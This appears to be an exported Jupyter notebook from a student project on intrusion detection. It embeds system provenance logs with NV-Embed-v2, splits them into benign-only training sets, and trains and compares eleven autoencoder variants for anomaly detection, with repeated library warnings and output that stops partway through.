C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEARSCOPE ---
  -> ProcessEvent (12106 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 12106/12106...
     ✓ Done.
  -> ProcessExec (12106 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 12106/12106...
     ✓ Done.
  -> ProcessParent (24 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 24/24...
     ✓ Done.
  -> ProcessNetflow (1116 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 1116/1116...
     ✓ Done.
  -> ProcessAll (12106 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 12106/12106...
     ✓ Done.

--- Processing Performer: THEIA ---
  -> ProcessEvent (270652 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 270652/270652...
     ✓ Done.
  -> ProcessExec (278363 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 278363/278363...
     ✓ Done.
  -> ProcessParent (279090 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 279090/279090...
     ✓ Done.
  -> ProcessNetflow (48048 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


    Processed 48048/48048...
     ✓ Done.
  -> ProcessAll (279369 rows)...


C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\modules\transformers_modules\nvidia\NV-Embed-v2\3fa59658547db50a1e8e3346cf057fd0c77ed6ef\modeling_nvembed.py:347: UserWarning: To copy construct from a tensor, it is recommended to use sourceTensor.detach().clone() or sourceTensor.detach().clone().requires_grad_(True), rather than torch.tensor(sourceTensor).
  'input_ids': torch.tensor(batch_dict.get('input_ids').to(batch_dict.get('input_ids')).long()),
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\contextlib.py:105: FutureWarning: `torch.backends.cuda.sdp_kernel()` is deprecated. In the future, this context manager will be removed. Please see `torch.nn.attention.sdpa_kernel()` for the new context manager, with updated signature.
  self.gen = func(*args, **kwds)


: 

#### Train test split

In [1]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated to point to your NV-Embed-v2 output directory
SOURCE_FOLDER = "processed_embeddings_nvembed_v2"
RANDOM_SEED = 42

# Dictionary to hold all your split datasets
# Structure: {'theia_ProcessEvent': {'X_train': ..., 'X_test': ...}, ...}
split_datasets = {}

def load_and_split(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # 1. Load the Pickle File
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # 2. Extract Embeddings (X) and Labels (y)
    # np.vstack ensures the embeddings are a proper 2D Matrix, not a list of lists
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # 3. Separate Benign (0) and Anomalous (1)
    # Boolean masking
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # 4. Shuffle Benign Data
    # Crucial to ensure the 80/20 split is random
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # 5. Perform the 80/20 Split
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train)) # All labels are 0
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    
    # Concatenate the benign test set with the anomalies
    X_test = np.concatenate([X_test_benign, X_anom])
    
    # Create labels for the test set (0 for benign, 1 for anomaly)
    y_test = np.concatenate([
        np.zeros(len(X_test_benign)), 
        np.ones(len(X_anom))
    ])
    
    print(f"  -> Split Complete:")
    print(f"     Train (Pure Benign): {X_train.shape}")
    print(f"     Test (Mixed):        {X_test.shape} (Anomalies included: {len(X_anom)})")
    
    return {
        "X_train": X_train,
        "y_train": y_train,
        "X_test": X_test,
        "y_test": y_test
    }

# ==========================================
# 2. EXECUTION LOOP
# ==========================================

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The folder '{SOURCE_FOLDER}' does not exist.")
    print("Please make sure you generated the embeddings for NV-Embed-v2 first.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load & split process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            # Clean up the key name by removing the model suffix we added during generation
            key_name = file.replace("_nvembed_v2.pkl", "").replace(".pkl", "")
            
            try:
                # Run the split function
                dataset_data = load_and_split(full_path)
                
                # Save to our main dictionary
                split_datasets[key_name] = dataset_data
                
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("DONE! All data is loaded into the 'split_datasets' dictionary.")
print("="*80)
print("Example usage:")
# Grab the first available key to show a dynamic example
if split_datasets:
    example_key = list(split_datasets.keys())[0]
    print(f"my_train_data = split_datasets['{example_key}']['X_train']")

Found 25 datasets. Starting load & split process...


Processing: 5dir_ProcessAll_nvembed_v2.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete:
     Train (Pure Benign): (8913, 4096)
     Test (Mixed):        (2238, 4096) (Anomalies included: 9)

Processing: 5dir_ProcessEvent_nvembed_v2.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete:
     Train (Pure Benign): (8913, 4096)
     Test (Mixed):        (2238, 4096) (Anomalies included: 9)

Processing: 5dir_ProcessExec_nvembed_v2.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete:
     Train (Pure Benign): (8854, 4096)
     Test (Mixed):        (2223, 4096) (Anomalies included: 9)

Processing: 5dir_ProcessNetflow_nvembed_v2.pkl...
  -> Raw Counts: 325 Benign, 4 Anomalous
  -> Split Complete:
     Train (Pure Benign): (260, 4096)
     Test (Mixed):        (69, 4096) (Anomalies included: 4)

Processing: 5dir_ProcessParent_nvembed_v2.pkl...
  -> Raw Counts: 10983 Benign, 9 Anomalous


In [2]:
import os
import pickle

# ==========================================
# 1. CONFIGURATION
# ==========================================
# [CRITICAL] Changed BASE_DIR to avoid overwriting other model outputs
BASE_DIR = "final_train_test_split_nvembed_v2"

print(f"Saving organized NV-Embed datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 60)

# Check if data exists in memory
if 'split_datasets' not in locals() or not split_datasets:
    print("[!] Error: 'split_datasets' variable is empty. Run the splitting script first.")
else:
    for key, data in split_datasets.items():
        # Key is like "theia_ProcessEvent"
        # We split at the first underscore to get performer and context
        parts = key.split('_', 1) 
        performer = parts[0]
        context = parts[1] # e.g., "ProcessEvent"
        
        # ------------------------------------------
        # 1. Setup Folders
        # ------------------------------------------
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        os.makedirs(train_dir, exist_ok=True)
        os.makedirs(test_dir, exist_ok=True)
        
        # ------------------------------------------
        # 2. Save TRAIN Data
        # ------------------------------------------
        train_file = os.path.join(train_dir, f"{context}.pkl")
        
        # Pack X and y together for convenience
        train_package = {
            'X': data['X_train'],
            'y': data['y_train']
        }
        
        with open(train_file, 'wb') as f:
            pickle.dump(train_package, f)
            
        # ------------------------------------------
        # 3. Save TEST Data
        # ------------------------------------------
        test_file = os.path.join(test_dir, f"{context}.pkl")
        
        test_package = {
            'X': data['X_test'],
            'y': data['y_test']
        }
        
        with open(test_file, 'wb') as f:
            pickle.dump(test_package, f)
            
        print(f"✓ {performer.upper()} - {context}: Saved to Train/Test folders.")

print("\n" + "="*60)
print("ORGANIZED SAVE COMPLETE FOR NV-EMBED-V2!")
print("="*60)

Saving organized NV-Embed datasets to: d:\Waleed FYP\final_train_test_split_nvembed_v2
------------------------------------------------------------
✓ 5DIR - ProcessAll: Saved to Train/Test folders.
✓ 5DIR - ProcessEvent: Saved to Train/Test folders.
✓ 5DIR - ProcessExec: Saved to Train/Test folders.
✓ 5DIR - ProcessNetflow: Saved to Train/Test folders.
✓ 5DIR - ProcessParent: Saved to Train/Test folders.
✓ CADETS - ProcessAll: Saved to Train/Test folders.
✓ CADETS - ProcessEvent: Saved to Train/Test folders.
✓ CADETS - ProcessExec: Saved to Train/Test folders.
✓ CADETS - ProcessNetflow: Saved to Train/Test folders.
✓ CADETS - ProcessParent: Saved to Train/Test folders.
✓ CLEARSCOPE - ProcessAll: Saved to Train/Test folders.
✓ CLEARSCOPE - ProcessEvent: Saved to Train/Test folders.
✓ CLEARSCOPE - ProcessExec: Saved to Train/Test folders.
✓ CLEARSCOPE - ProcessNetflow: Saved to Train/Test folders.
✓ CLEARSCOPE - ProcessParent: Saved to Train/Test folders.
✓ THEIA - ProcessAll: Saved to T

#### Training AEs and Saving `.pth` files.

In [10]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
# Added dcg_score alongside ndcg_score
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
BASE_DIR = "final_train_test_split_nvembed_v2"
RESULTS_FILE = "results_all_autoencoders_nvembed_v2.csv"
MODEL_SAVE_DIR = "saved_weights_nvembed_v2"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
INPUT_DIM = 4096    # NV-Embed-v2 dimension

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio (handled internally by sklearn, or dcg/idcg)
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.928 | nDCG: 0.4051 (DCG: 1.7235, IDCG: 4.2545)
